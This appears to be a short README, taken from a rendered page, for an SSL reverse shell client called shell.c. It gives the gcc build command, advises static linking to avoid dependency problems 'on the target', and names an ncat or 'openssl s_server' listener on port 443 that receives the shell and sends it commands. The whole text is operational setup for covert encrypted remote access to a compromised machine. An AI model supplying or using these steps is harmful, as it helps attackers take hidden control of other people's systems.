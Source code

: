 
Before compiling , please make sure you have the OpenSSL dev package installed .</br>
Compile using : </br>
       <b> gcc -Wall -g -o shell shell.c -lssl -lcrypto </b></br>
You will probably want to link statically against the library to avoid dependencies issues on the target . 

You can either use ncat (http://edoceo.com/cli/ncat) or any other tool with ssl support to send commands to the client .</br>
To test the client, you can use openssl s_server utility on your server and wait for connections:</br>
       <b>openssl s_server -key key.pem -cert cert.pem -accept 443</b>
